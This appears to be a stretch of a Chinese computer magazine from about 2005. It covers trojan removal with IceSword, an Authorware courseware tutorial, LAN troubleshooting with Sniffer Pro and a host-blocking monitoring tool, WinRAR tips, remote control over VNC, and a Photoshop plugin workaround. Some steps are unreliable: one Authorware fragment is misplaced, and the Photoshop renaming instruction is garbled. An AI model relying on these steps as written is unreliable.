既然看了服务，也应该查查注册表[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services]的情况。反正IceSword也提供查看/编辑注册表功能，正好和系统的“注册表编辑器”也来个对比，点击窗口左侧的“注册表”标签，然后打开依次展开[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services]项(见图5)。真是不比不知道，一比吓一跳。看来，系统内置工具还是选择“沉默”，还记得《如何查杀隐形木马》一文吧，虽说鸽子在正常模式下，它的主服务也能隐藏，但它在系统的“注册表编辑器”内完全是显示的，更不要说目前是安全模式。仔细看看，既然已经从IceSword得到可靠情报，得知“幕后黑手”位于系统目录E:\Windows\system32\wins下。





### 第四步：查看文件
我们还是用系统的“资源管理器”和IceSword对比一下，点击窗口左侧的“文件”标签，结果如图6所示。“资源管理器”选择了“交白卷”。在IceSword的文件浏览器与系统的“资源管理器”明显对比下，IceSword已经发现三只“黑手”，正是因为有这只隐藏的幕后黑手，难怪朋友搞了几次，换了不同的防病毒软件还是没清理干净。

### 第五步：清除木马
剩下的事容易多了，在IceSword中点击“查看”标签下的“进程”按钮，右击刚刚发现的隐藏进程，选择“结束进程”。然后用IceSword删除那三个木马文件，最后，还要删除多余的服务项 —— 那两个HackerDefender*的注册表键值即可。清理完这只“黑手”后，再使用杀毒软件重新杀一遍系统，确认没有其他的木马。

上面的例子充分体现了IceSword的魅力所在。正如作者所言，IceSword大量采用新颖技术，有别于其他普通进程工具，比如IceSword就可以结束除Idle进程、System进程、csrss进程这三个进程外的所有进程，就这一点，其他同类软件就是做不到的。当然有些进程也不是随便可以结束的，如系统的winlogon.exe进程，一旦杀掉后系统就崩溃了，这些也需要注意。还等什么，这么好用、强悍的“瑞士军刀”，还不赶快准备一把防身?
(Qoo酷儿)

## 用Authorware制作英语课件

陆陆续续，“软件你别牛”栏目已经做了7期，这期间得到了许多读者朋友的支持，给我们发回了许多宝贵的反馈意见，因时间关系，不能一一回复，在这里一并向所有支持我们的读者致谢了。从本期开始，我们将兑现承诺，挑选出一些高得票数的选题制作成文章，奉献给广大读者。本期为2005年第1期“软件你别牛”中的1号选题:英语课件制作实战，它的最终统计票数为258票。本文实例的源文件及素材文件，可从http://www.newhua.com/cfan/200508/aw.rar下载。多媒体技术在辅助教学的过程中起着越来越重要的作用，但很多老师并不是计算机科班出身，制作多媒体课件有一定困难，而多媒体创作软件的出现正好可以解决他们的难题，使得老师们能够抛开技术细节不管，专心致志于实际教学效果的实现。在众多的多媒体创作软件中，Authorware算得上是佼佼者。下面，笔者就以一堂小学英语课的课件制作为例，介绍一下Authorware开发的一般步骤。大家可以拓展本例，开发出软件教学光盘等其他类型的产品来。

### 实例描述
运行本课件后，首先是一个简短片头:动态显示出英语课的标题，并显示出本课程中涉及到的两个人物(医生和小孩)。在主界面下方有一排按钮，单击其中的“练习一”进入到练习模块中，将显示一个平躺着的小孩子的图像，右上角有一个表达身体各部位名称的单词列表。当把光标指向孩子身体的某个部位(如:头部)时光标将变成手的形状，此时单击就会出现一个空白的提示框，提示学生在上面的单词列表中进行选择。当学生点击了正确的单词(如:head)后，该单词就会自动显示在提示框中，同时还会发出象征答对了的音乐声(也可以是这个单词的发音)，这样学生就会很形象地将头部与head这个单词联系起来，加深记忆。将光标移向身体的其他部位，可以继续进行练习。单击“返回”按钮可退回到主界面，单击“退出”按钮将结束课件的运行。

### 课件片头的制作



### 第一步：新建文件
启动Authorware 7.0简体中文汉化版，首先会弹出新建项目对话框，单击其上的“不选”按钮新建一个空白的文件，然后单击工具栏上的“保存”按钮(左起第三个图标)，在打开的对话框中将当前文件保存为Unit10.a7p。接着设置一下课件的场景大小，单击菜单“修改→文件→属性”命令，在主界面下方打开属性面板，将其中的“大小”设置为“640 × 480(VGA,Mac13)”，选中“选项”中的“标题栏”及“屏幕居中”两项，并清除掉其他的复选项。

### 第二步：建立背景
从图标工具箱中拖放一个显示图标(左侧第一个图标)到流程线上，将默认的图标名改为“背景”。双击它打开演示窗口，然后单击工具栏上的“导入”按钮(左起第四个按钮)，导入准备好的背景素材图片(本例为“背景.bmp”)。

### 第三步：主角登场
这一步骤要让本课件中的主角一一看病的小男孩及医生陆续登场。拖放一个显示图标到流程线上，命名为“小人”。双击它打开演示窗口，单击工具栏上“导入”按钮导入一个小孩的图像(本例为“小人.bmp”)，并拖放到适当的位置。接着，单击菜单“修改→图标→属性”命令，然后在下方的属性面板中单击“特效”右侧的“…”按钮，在弹出窗口中选择“内部→从左往右”，再在下方输入相应的时间周期和平滑度(见图1)。这样，这个小孩的图片就不会突然出现，而是从左往右动态显示出来。
以同样的方法再在流程线上放一个显示图标，命名为“医生”，并导入医生图像(本例为“医生.bmp”)。将其“特效”设置为“内部→逐次涂层方式”，并进行相应设置，使医生图像动态显示出来。

### 第四步：稍候片刻
从图标工具箱中拖放一个等待图标(左侧第四个图标，标有“WAIT”的即是)到流程线上，双击它，然后在下方的属性面板中，将“时限”设置为0.35秒，并取消其他的选项。这样，当医生图像显示完成后，会自动停留0.35秒再进入执行下一图标。

### 第五步：给画面来点音效
仅仅显示出图片还是不够的，这时我们需要来一点音效以吸引学生注意。从图标工具箱中拖放一个声音图标(右侧第五个小喇叭图标)到流程线上，将其命名为“背景音效”，单击选中它，然后如图2所示，在它的属性面板中单击“导入”按钮打开导入对话框，导入一段有趣的音乐(本例为“背景音效.WAV”)。



### 第六步：添加课程标题
拖放一个显示图标到流程线上，命名为“标题”，然后双击它打开演示窗口。在随演示窗口一起出现的工具箱上，单击“色彩”下的字体色图标(标为A的那个)为字体选择一种颜色，再单击工具箱上的文字工具(即右侧最上方的“A”图标)，然后在演示窗口适当的位置点击一下，再输入“Unit Ten”(第十元)以及课程标题“What's the matter?”。选中输入的文字，就可以在“文本”菜单下为其选择相应的字体、大小和格式了。单击工具箱中的指针工具(即黑箭头图标)，用它选中文字，再单击工具栏上的“模式”按钮，然后选择“透明”模式(见图3)。



现在按下 Ctrl + R 键试运行一下课件，我们会发现背景首先出现，然后小孩与医生依次显示出来。稍过片刻后，一个有趣的背景音效响了起来，并显示出课件的标题名称。

### 为课件添加交互功能
交互性是多媒体的核心，也是计算机区别于其他媒体的最显著的特征。对交互作用的控制更是 Authorware 强大功能的最集中的体现。

### 第一步：创建交互结构
从图标工具箱中拖放一个交互图标(右侧第一个带问号的图标)到流程线上，将其命名为“练习”，然后再拖放一个群组图标(右侧第三个图标)到“练习”的右方，当在交互图标 的右侧添加其他图标时，Authorware会弹出对话框询问响应类型(见图4)，默认为“按钮”类型，确定后，这个图标会自动与交互图标关联到一起(以流程支线的方式表示)，将这个群组图标命名为“练习一”。点击一下“练习一”图标上方的小方框，然后在下方的属性面板中单击“响应”标签，将其中的“范围:永久”项选中，这样可以保证“练习一”按钮一直显示在主界面上，不会被后面的对象覆盖掉。



### 第二步：添加多个按钮
在交互图标右侧可增加任意多的其他图标。本例中，我们在“练习”交互图标右侧一共添加了五个图标，其响应类型全部都设置为默认的“按钮”类型。前面三个都是群组图标，分别命名为“练习一”、“练习二”和“练习三”；后面两个是计算图标(图标工具箱右侧第二个标有等号的图标)，分别命名为“返回”和“退出”，此时整个流程图的状态如图5所示。



### 第三步：设置返回与退出功能
双击“返回”计算图标，在其中输入:ResumeFile("背景")，它的作用是在单击“返回”按钮时，程序将返回到“背景”图标处(也就是本课件最开始的地方)重新执行(见图6)。双击“退出”计算图标，在其中输入:Quit()，它的作用是在单击“退出”按钮时，结束整个程序的运行。


### 第四步：调整按钮位置
最后双击“练习”交互图标，将会发现在第二步中添加的五个图标，在这里都有一个对应的按钮，将它们按顺序排列在界面的下方。现在再 Ctrl + R 键运行程序，效果如图7所示。



### 练习模块的制作
限于篇幅，在这里我们只选择“练习一”进行介绍，“练习二”和“练习三”的内容请大家举一反三，自己增加新的练习功能。

### 第一步：布置练习场景
双击“练习一”群组图标，将打开一个二级设计窗口，在其流程线上拖放三个显示图标，分别命名为“提示”、“男孩”、“单词列表”。双击打开“提示”图标，然后先单击工具箱中的矩形工具，再单击工具箱最下面的“填充”按钮，在打开的填充样式框中点选实心的黑色图标；返回到工具箱中，单击“色彩”中的填充色前景色图标，选一种自己喜欢的颜色作前景色，此时便可以在演示窗口中画一个带有填充色的矩形了，拖动矩形周边的节点可适当调整矩形的大小使其与演示窗口的大小相当(这个矩形的主要作用是在执行这个群组图标后，它会将之前的画面都遮盖住)；接着在矩形之上使用文本工具输入提示文字(如：“请先用鼠标选择小孩子身体的部位，然后再单击上方与之相匹配的单词”)。在“男孩”图标中导入一个平躺着的小孩子的图片(本例为“boy.bmp”)。在“单词列表”图标中导入一张如图8所示的，包含了所要填写的完整单词列表的图片(本例为“单词列表.bmp”)。

- head, eye, nose, ear, arm, foot
- back, mouth, leg, hair, hand


### 第二步：设置热区域交互
在“单词列表”显示图标下面放置一个交互图标，将其命名为“交互练习”。然后拖放一个群组图标放到该交互图标的右侧，设置交互类型为“热区域”，将其命名为head。双击此群组图标上方的虚框，再在下方的属性面板中将其中的“匹配”设置为“单击”。

### 第三步：设置热区域响应
在head右侧放置一个名为he的显示图标，双击它，在其中画上提示框图形，提示框由方框和箭头组成(见图9)。其中的箭头实际上就是一条线段，在工具箱中点选斜线工具，然后在下面的“线条”项中单击上面的图标可选择线条的粗细，单击下面的图标可选择带箭头的线条样式。画好提示框后，按下 Ctrl + = 键将打开计算图标窗口，在其中输入：

```
head:=1
display:=0
```

关闭这个窗口时会弹出一个对话框，询问是否保存计算图标中的变量，单击“是”保存，又会弹出一个窗口，将head的初始值设置为0，display的初始值设置为1。接着单击he上方的小方框，在下方的属性面板窗口中将“匹配”设置为“指针处于指定区域内”；单击“鼠标”按钮，在打开的对话框中选择最后那个手形光标，确定后返回；单击属性面板上的“响应”标签，然后将“激活条件”设置为“display=1”，将“擦除”项设置为“On Exit”。

### 第四步：调整热区位置
按下 Ctrl + R 键从头开始运行，再单击“练习一”进入练习一中，此时按下Shift键不放并双击流程线上head图标上面的小方框，在演示窗中便会显示出一个名为head的虚线框来(即所谓的热区)，将这个虚线框拖放到上方的单词head上(必须将光标放在虚线边框上才能拖动)，拖动矩形周围的节点以调整热区大小，使其正好圈着单词head(见图10)。以同样的方法将he的热区矩形拖放到孩子的头部位置上。

再按下 Ctrl + R 键从头开始运行，进入练习一后，将光标移到小孩子的头部(即he热区的位置)，光标将变成手的形状，点击一下将显示出前面所画的提示框来，此时可拖动调整这个提示框，使其箭头指向小孩的头部。

### 第五步：完善head热区功能
单击head群组图标上方的方框，在下方属性面板中单击“响应”标签，在“激活条件”中写上“head=1”。接着双击head群组图标，打开三级设计窗口，放置一个名字也为head的显示图标，双击打开它输入单词head。选中head显示图标，按下 Ctrl + = 键，在打开窗口中输入“display:=1”。在这个示框提示我们进行选择。单击单词列表中的head，我们在head显示图标中所输入的单词head将显示出来。此时拖动这个单词，使其位于提示框之内。

最后的课件流程图如图11所示，依次为主流程线图以及部分二级流程线和三级流程线。其余部分可参见上面的步骤制作，制作过程中可随时按下Ctrl + R键运行测试一下，直到满意为止。

## 发布课件

- 第一步：选择菜单“文件→保存”命令保存好源文件，方便以后随时修改。
- 第二步：选择菜单“文件→发布→打包”命令，在打开窗口中选择“应用平台 Windows XP，NT 和 98”项，再单击“保存文件并打包”即可生成相应的EXE文件。本例生成的可执行文件为“unit10.exe”，只要双击它，就可以脱离Authorware环境，独立运行课件了。
- 第三步：如果想在没有安装Authorware的电脑上运行课件，或者是想把课件刻录到光盘上，除了前面生成的unit10.exe外，还要将课件制作过程中所用到的素材文件（图像、声音等），以及Authorware安装文件夹下的AWIML32.DLL、js32.dll、VCT32161.dll文件和Xtras子文件夹一并拷贝到打包文件（即EXE文件）所在的目录。

(上海 叶新建)





head显示图标的下面再放一个声音图标并导入一个音乐片段，表示对学生选择正确后的鼓励，也可以插入自己录制下head的单词读音。

第六步：按 Ctrl + R 键从头开始运行课件，进入练习一后，单击小孩的头部将弹出提示框。

作为一个网管，每天都要处理各种不同的问题，网络出现问题了，我要管，电脑出现问题了我也要管，真是一天从早忙到晚……

一大早，单位就有人抱怨网络速度缓慢，经过检查，原来问题出现在我的内部局域网里面，这下可把我急坏了，该怎么入手呢？还是老办法，使用我“工具箱”里的Sniffer Pro和“网络执法官”这两个软件来解决问题。

## 王牌软件 Sniffer Pro

Sniffer Pro(http://www.networkgeneral.com/)是一款相当强大的网络分析工具。大家知道，网络上的数据都是以数据包的形式传播，利用Sniffer Pro的网络分析功能，能够将通过一块网卡传输的所有的数据包都捕获下来，然后检查每个数据包的详细信息。如果把Sniffer Pro布置在代理服务器所在的计算机上，所有通过代理服务器访问Internet的数据包都将被记录下来。

安装完成后软件第一次启动会提示选择需要监视的网卡。一般代理服务器都有两块网卡，其中有一块是连接内部局域网，所有内部局域网内的上网请求全部由这块网卡进行数据传输。另一块是连接Internet，与外部网络进行数据交换，因为问题最大的可能出现在内部，所以我们需要选择连接内部局域网的网卡。之后就可以开始使用软件了。

第一步：点击工具栏中的“Start”（三角）按钮，这时会弹出Expert窗口，Sniffer Pro就开启了截获工作。虽然出口带宽不大，但是由于我们是检测的内部局域网，所有的请求都会从此经过，所以数据流量是很大的，应该注意一下状态栏的数据包数量，如果捕获的数据包数量太多，可能造成系统的缓慢，一般几秒钟就足够了。按下“F9”键捕获结束，就可以浏览并分析捕获的结果了。

第二步：选择位于窗体下面的“Decodes”标签，Sniffer Pro刚刚记录下来的所有数据包内容就映入眼帘，我们可以注意“Summary”列（见图1），里面存着大量的ICMP协议的数据包。ICMP是“Internet Control Message Protocol”的缩写，这个协议用于主机和路由器间传送控制信息，可用来探测网络是否通畅，我们经常使用的PING命令就是利用了这个协议，PING命令的原理是由主机发出一个ICMP协议的数据包（通常数据大小是32bit），对方主机接收到之后发送一个返回信息，表明网络畅通，可以进行数据传输。但如果一台计算机接收到大量的ICMP数据包而无法进行及时回应时，主机就陷入了一种无法对任何服务进行响应的情况。



## 网管的“烦恼”

第三步：看到这里，我突然想到了最近网络上流行的冲击波病毒，中病毒后的计算机就是这种症状，网络无法访问的原因就在这里了。接下来就要分析一下到底是哪台主机在不间断的发送ICMP协议数据包。在“Decodes”标签下，可以看到发送ICMP协议数据包的源地址(Source Address)，这是一个内部局域网的IP地址，接下来要做的就是找到这台计算机并把它隔离离开网络进行杀毒处理。

## “网络执法官” 帮你来 “执法”

知道了IP地址，接下来就要靠另一个重量级软件出场了，它就是“网络执法官”(http://www.netrobocop.com)。“网络执法官”是一款局域网管理辅助软件，它能穿透防火墙对每一台计算机进行监控。软件可以安装在除了代理服务器计算机的任意同网段的电脑上。

第一步：安装完成之后，指定网卡的监控范围，在主界面上很快就会显示出所有该网段的计算机信息。这些信息包括IP地址、网卡地址(Mac地址)、计算机名称等信息（见图2），找到刚才在Sniffer Pro里面发送ICMP数据包的计算机，看看你是否知道这台计算机的实际物理位置。



第二步：在该计算机的记录项上单击鼠标右键，然后发一条消息，只要对方电脑的信使服务是开启的，就能读到这条消息。

第三步：如果没有反应，可以中断这台计算机与代理服务器的通讯。首先设置关键主机，在菜单栏里依次选择“设置→关键主机”，打开“关键主机”窗口，将代理服务器的IP地址输入并添加到列表中（见图3）。



第四步：选择带病毒计算机的记录，单击鼠标右键，选择“权限设定”，在对话框中选择“发现该用户与网络连接即进行管理”单选框，选择管理方式为“禁止与关键主机的TCP/IP连接”的选项。然后就等着电话找你报告说他上不了网吧，之后的工作就是杀毒了。

“网络执法官”在我日常的网络维护工作中还能发挥更大的作用，不如来个更透彻的学习吧。

单位的局域网由于采用静态IP地址管理方式，经常发生IP地址冲突。因此我使用了“网络执法官”里一个重要的功能——IP-MAC绑定(注册版本的功能)。使用时，只要在一条电脑记录上单击鼠标右键，选择“MAC_IP绑定”，单击“全部绑定”按钮就把网卡物理地址和IP地址绑定了。

除了已经分配好的IP地址，还有许多未分配的IP地址，为了防止这些资源被胡乱的占用，“网络执法管”还提供了IP保护这个功能，当一个新用户试图使用这个IP地址时，它将会被作为非法用户进行管理：首先，点击菜单中的“设置→IP保护”，打开“受保护IP”窗口。然后，按如图4所示将需要保护的IP地址添加进去。



| Windows | 要对各版本有所了解，熟练解决各种问题 |
| :--- | :--- |
| Linux | 要求有所了解，如果还要管理外部网站，通常必须掌握此系统 |
| PCCanywhere | 非常不错的远程控制软件 |
| Sygate Proxy | 共享上网软件，多用于家庭或小规模网络 |
| ISA | Internet Security And Accelerate Server，很多公司都在使用的代理/防火墙软件 |
| Serv-U | 大家熟知的FTP服务器端 |
| Apache | Web服务器软件 |
| MySQL | 数据库软件，和PHP搭配相当完美 |
| SSH Client | SSH客户端，加密的远程登录工具 |
| CC Proxy | Socket代理软件 |
| QMail | 邮件服务器 |
| Ghost | 硬盘克隆工具，不用再辛苦地重装了 |
| PQMagic | 无损修改硬盘分区容量软件 |

### “网管工具箱”中的其他工具

如果只有上面两个工具，当然不能真正体现出网管的水平，如果你想从事网管职业，还要熟悉下面这些软件。

网管的日常工作十分繁琐，如果是以前，出现这些问题后很麻烦，现在有了这些方便的网管工具，我的工作也变得轻松了些，可以抽出些时间继续学习了，如果发现了什么好东东，下次再和大家交流。
（HY 阮征）

### 网管常见的10大问题



- 1. “我上不去网！” 答：通常这是因为网线松动，只要将网线插紧就好了。
- 2. “网管，死机了！怎么办？” 答：没办法，如果你是网吧里的网管更是会经常遇到这种事——死机后根本不知道重启二字。教会他们重启吧……
- 3. “我共享文件为什么看不到对方。” 答：看不到对方？不知道关闭防火墙吗？
- 4. “网管，我的Windows 98把防火墙关了别人还是看不到！” 答：Windows 98系统必须添加“文件及打印共享”协议，才能让别人访问。
- 5. “网管，我的电脑怎么总是自动重启呀？” 答：一般是中了冲击波或震荡波病毒，请用相应的病毒专杀工具查杀。
- 6. “QQ能上，网页打不开！” 答：这种情况的解决方案我们已经介绍过多次了，具体方法请参考本刊2004年23期《杀毒后的处理——IE修复技巧三则》。
- 7. “自动获得的IP为什么不能上网？” 答：这个是由于DHCP服务故障导致的，请在命令行模式下执行ipconfig /release后，再运行ipconfig /renew。
- 8. “机器慢死了，启动后半天才能打开IE浏览器。” 答：启动程序太多，看看你的启动项里的内容是不是太多了。
- 9. “论坛及网页注册页面的确认码无法正常显示。” 答：请关闭第三方工具类似“上网助手”等，并将系统内置的防火墙关闭，特别是Windows XP SP2的自带防火墙。
- 10. “上不了网，杀毒软件提示有毒，清除后，再重启仍然提示未清除。” 答：要想彻底杀毒需要进入安全模式进行查杀，开机按F8进入即可。

### 我的WinRAR自解压界面大不同

新版WinRAR自解压模块有了较大改进。首先，自解压模块不再使用UPX压缩，避免了以前版本使用UPX压缩导致一些反病毒软件的病毒误报，当然，这样的结果使得自解压文件的体积相应有些增大。其次，我们已经可以很方便地在自解压参数设置中，选择个性化的图片来替换默认的自解压图片（见图1），具体使用方法如下。

第一步：选中要压缩的文件或文件夹，右击后，选择“添加到压缩文件”，勾选“常规”选项卡下的“创建自解压格式压缩文件”。

第二步：点击“高级”标签，点击“自解压选项”按钮，打开“高级自解压选项”窗口。

第三步：单击“文本和图标”选项卡，点击“从文件加载自解压图片”栏中的“浏览”按钮选择一个分辨率小于300×90的BMP格式图片即可（见图2）。





> ★新版本WinRAR将纯DOS自解压模块文件DOS.SFX转移到了RAR的DOS版中发布了，如果你要创建DOS自解压文件，需要把以前版本的DOS.SFX文件复制到当前版本WinRAR安装目录下。

★如果你需要使用UPX压缩的自解压模块，可以http://upx.sourceforge.net下载UPX工具，自行解压至WinRAR安装目录下，然后在如图2所示窗口中的“模块”标签下进行选择即可。注意，新的自解压图片和图标特性将不能在UPX压缩过的自解压模块中使用，而且这两个新特性也不支持Windows 9x/Me操作系统。

（软件DIY）

### 我的WinRAR会换肤

WinRAR以其强大的功能和对ZIP等其他压缩格式的兼容支持，已经取代WinZIP成为压缩软件的霸主。目前，WinRAR又推出了新的3.50 Beta 2版本，新版本在基本功能上新增了对ZIP64格式ZIP压缩文件和多卷CAB压缩文件的解压支持，同时在操作功能上也有许多新的改进和贴心设计，比如下面介绍的换肤功能。

WinRAR小档案
软件版本：3.50 Beta 2
软件大小：1035KB
软件性质：共享软件(40天使用限制)
适用平台：Windows 9x/2000/XP
下载地址：http://nj.onlinedown.net/soft/22750.htm

网上有一种被称为美化版的WinRAR非常受欢迎，因为界面中的按钮图标设计非常漂亮，现在新版WinRAR则提供了更换主题功能，用户可以直接下载相应主题文件来更改界面按钮图标。

第一步：在浏览器中打开http://www.rarlab.com/themes.htm页面可以下载到官方提供的主题文件，不过目前只有一款f00od的图标包下载，提供有3套不同大小的图标规格。

第二步：下载后的主题文件是RAR压缩包，双击压缩包，WinRAR就会自动提示你是否安装界面主题，单击“是”按钮即可安装，单击“否”则可以查看压缩包中的文件。

第三步：安装完毕后，在WinRAR菜单中单击“选项→主题”，就可以看到主题列表，选择需要的主题即可看到界面的改变了（见图）。

除了这款的皮肤外，你还可以从http://www.newhua.com/cfan/200509/winrar-theme.rar下载到另外几款皮肤。

其实你用WinRAR打开这些主题文件，就会发现这些扩展名为THEME.RAR的主题文件，其实就是一个RAR压缩包。只要你有能力同样可以制作出不错的WinRAR主题。

小提示
如果想自制皮肤，可以参考http://news.onlinedown.net/info/12058-1.htm及http://www.rarlab.com/themes_new.txt的相关说明文件。

（软件DIY）



### 让WinRAR支持的压缩扩展名更广一些

除了RAR、ZIP等这些标准的压缩文件扩展名外，新版WinRAR还允许我们自定义特殊的压缩文件扩展名，并进行自动文件关联。例如笔者经常从某网站下载软件，但该网站使用的空间服务器不允许上传RAR类型的文件，因此从网站下载的RAR压缩文件扩展名都是“001”，下载后需要手工修改扩展名，当下载的文件较多时，这是一项比较麻烦的工作，现在你则可以打开WinRAR“设置”对话框中的“综合”选项卡，在“用户自定义压缩文件扩展名”栏中输入“001”，即可把扩展名为“001”的RAR压缩文件与WinRAR进行自动关联，从而方便解压操作。

（软件DIY）

## 我的 WinRAR 预览网页更快

我们知道，很多软件并不是一个单独的EXE就能正常执行的，然而我们直接在压缩包中双击运行这样的EXE文件时，却都能够正常运行，这是因为WinRAR默认设置双击EXE文件时，自动同时解压缩包中的所有文件，从而保证了EXE文件的正常运行。这个默认特性同样适用于HTM和HTML文件，所以我们打开一个WinRAR压缩包中的网页文件时，可以看到包括图片在内的整个页面。但实际上，有时我们并不希望这样，因为它会延长压缩包中双击预览网页文件的时间，尤其是对于大体积的压缩包更为明显。现在，新版WinRAR中允许自定义这个特性，这样就可快速预览压缩包内的网页文件了:单击菜单“选项→设置”，打开“查看器”页面，在“解包所有用于”栏中删除“*.htm *.html”即可(见右图)。当然，如果有其他类型的文件双击预览时需要全部解压，也可以在这里添加它的文件类型。



## 让我的WinRAR安全多一点

WinRAR 3.5 Beta 2在安全性方面也做出了一些小的改进。首先，禁止在压缩包中直接双击运行*.pif文件(PIF文件是病毒传播的典型方式之一)，这时它会提示“潜在的危险内容被阻止”。其次，对于一些通过使用双扩展名，并在虚假扩展名后面添加空格来隐藏真实扩展名的病毒程序，新版WinRAR在显示时将会自动移除不在文件名开头和结尾的连续空格，使文件名列表中能够显示出它的真正扩展名，例如一个名为“readme.txt .exe”的文件在新旧版本WinRAR中的文件名显示对比如图所示，在新版本中可以明显看出这是一个经过伪装的文件。

小提示 WinRAR在细节上的贴心设计一直是让人称道的，这次也同样进行了一些小的升级和改进。使用“向导”模式创建或更新压缩文件时，允许直接设置密码;显示文件列表时，将会以彩色显示加密的或压缩的NTFS文件;在工具栏右键菜单中新增“锁定工具栏”选项，可以防止意外的工具栏移动和改变大小;在解压对话中的“高级”选项卡中新增“删除压缩文件”选项，允许自动删除已经解压的压缩文件以节省磁盘空间。



## 抢先启动杀毒哪儿

各位细心的用户肯定发现了从17.20.22版开始瑞星杀毒软件2005增加了新功能—抢先启动杀毒。许多朋友对它比较好奇，并且来信提出了一些问题，下面就详细介绍一下这个新功能。

1.  什么是抢先启动杀毒? 抢先启动防毒就是指在Window登录界面下即系统还未完全启动时开启病毒实时监控程序。而抢先系统杀毒系统不仅可以在系统未完全启动时开启病毒实时监控，还可以直接启动杀毒软件主界面进行杀毒。同时，瑞星个人防火墙2005版也具备了抢先启动保护功能，可以在还没登录系统前对远程发来的攻击数据包进行拦截(见图1)。
2.  为什么需要抢先启动杀毒? 许多病毒会修改注册表实现自启动，更有甚者将自己注册成服务，并会接管一些API造成登录系统以后隐藏自身，在Windows下根本无法找到这些病毒文件。还有一些病毒专门针对杀毒软件设计，阻止杀毒软件运行。通常，遇到这种病毒需要重启电脑进入安全模式下杀毒。但这对于初学者来说还是有一定困难的，并且对付那些通过修改注册表和EXE文件关联的病毒也存在一定局限性，因为只要开启可执行文件病毒就随之启动，失去了在安全模式下杀毒的意义。有了抢先启动杀毒功能，就不再需要用户进入安全模式下进行操作了，该功能比安全模式下杀毒更加方便、安全。虽然抢先启动防毒系统能够对病毒进行拦截，但并没有真正地对计算机内的所有病毒体进行完全清除，使计算机存在一定的安全隐患。因此，要确保系统真正的安全，不光需要杀毒软件具备抢先启动防毒能力，更要具备杀毒的能力(见图2)。
3.  抢先启动杀毒会不会泄漏用户的隐私文件? 以前微软中文输入法曾出现过一个漏洞，允许用户在没有登录系统时对电脑中的文件进行访问。由于瑞星杀毒软件2005也可以在系统未登录时访问本机文件，因此许多朋友也有这方面的担心。瑞星杀毒软件2005的抢先启动杀毒功能充分考虑到了安全问题，启动杀毒软件主界面时会要求用户输入本机的用户名和密码，只有身份验证通过才能够启动程序，用户完全不必担心这个功能会泄漏隐私文件(见图3)。

- 1. 安装好 Ultr@VNC 的服务器端及客户端再从 http://www.vnn.cn/ 处下载 VNN Client 的最新3.0版，并进行安装。
- 2. 远程控制双方均在登录界面中点击“单击左键以注册一个新账号”，在弹出窗口中注册新的账号，注意“账号名称”要使用“用户名.user.vnn.cn”的格式。如果有账号，则直接登录即可。
- 3. 远程控制两端均登录 VNN 后，去除“文件”菜单下“简洁模式”的勾选。
- 4. 在控制端点击工具栏中的“密友名单”。使用“添加”按钮，添加远程服务器端的账号(见图2)。
- 5. 这时双方已经建立连接。在控制端启动“Ultr@VNC 查看器”，在打开的连接窗口的“VNC服务器”下输入远程服务器端的IP(注意是登录 VNN Client 后分配的虚拟IP，而不是你上网用的 IP)。再点击“连接”按钮，就可以开始远程控制了。





## 给Photoshop CS装上得心应手的工具栏

Photoshop是大家最常用的图像处理工具，但它没有工具栏这个弱点直到CS版依然没有改进。这样的设计虽然能获得最大的可视空间，但许多常用操作却需要点击几次菜单才能完成，很不方便。虽然你可以用快捷键来完成操作，不过组合式的快捷键比点击工具栏按钮更麻烦，而且还需要记忆。

笔者曾见到过一款叫做PhotoTools的软件，它有一个PhotoBars模块，可以通过插件的形式给Photoshop添加方便的工具栏按钮，但非常遗憾的是这款软件仅支持Photoshop 4.0~6.0版，最新CS版本根本无法正常安装。笔者对其进行分析后发现，通过简单修改，完全可以让这个实用的工具栏在Photoshop CS下正常安装和使用，而且只要掌握了这个方法，就可以让它在以后更新的Photoshop版本中使用。

- PhotoTools小档案
软件版本:3.06
软件大小:11956KB
软件性质:共享软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.skycn.com/soft/2535.html

## 安装:善意的欺骗

第一步：如果直接安装PhotoTools，在Locate Photoshop步骤中即使设置了正确的Photoshop安装路径，也会出现Can't find Photoshop.exe, Please select another directory...的错误提示，而无法继续安装。这是因为PhotoTools是通过文件名来识别Photoshop安装路径的，6.0之前的Photoshop主程序文件名使用的是8.3格式的Photoshop.exe，从7.0版本开始都改为了Photoshop.exe。为了让PhotoTools能够正常安装，首先需要将Photoshop安装目录中的Photoshop.exe复制一份，并改名为Photoshop.exe来骗过它的识别机制，然后在安装时选择正确的Photoshop安装路径，即可正常安装。

第二步：由于在Photoshop CS中文版中，PhotoTools安装程序无法正确定位插件路径。它会把所有插件都自行安装到C盘根目录中，而我们只需要其中的PhotoBars工具栏模块即可。所以可以先在“C:\Program Files\Adobe\Photoshop CS\增效工具”(如果是Photoshop 7.0则为C:\Program Files\Adobe\Photoshop 7.0\Plug-Ins)目录下新建PhotoBars目录，然后将C盘根目录下的PhotoBar.8bf、PhotoBars.exli.dll、PhotoEng.8bf三个文件以及C盘根目录下的PhotoBars目录整个复制到刚才新建的PhotoBars目录中即可(见图1)。



第三步：为了方便大家使用，笔者对PhotoBars进行了简单的界面汉化，你可以从http://www.newhua.com/cfan/200507/cnPhotoBars.rar下载cnPhotoBars.rar，然后将其解压到新建的PhotoBars目录中，覆盖原有文件即可。

现在运行Photoshop CS，你会发现在主界面中多出了两个工具条(见图2)，上面有许多按钮，默认的工具条和Photoshop的其他面板一样悬浮在主窗口中，只需双击工具条标题栏，它就会自动停靠在工具栏位置。不过，现在点击工具条中的按钮，很多都是不能用的，因为这些按钮的功能都是针对旧版Photoshop的菜单结构设计的，Photoshop CS的菜单结构变化很大，我们还需要重新设计按钮功能。

> 小提示
当工具条处于悬浮状态时，你可以拖动其边框来改变它的形状，同时也可以直接拖拽它到屏幕四周，工具条就会自动停靠在屏幕的某个边缘。



## 设计:我的按钮我做主

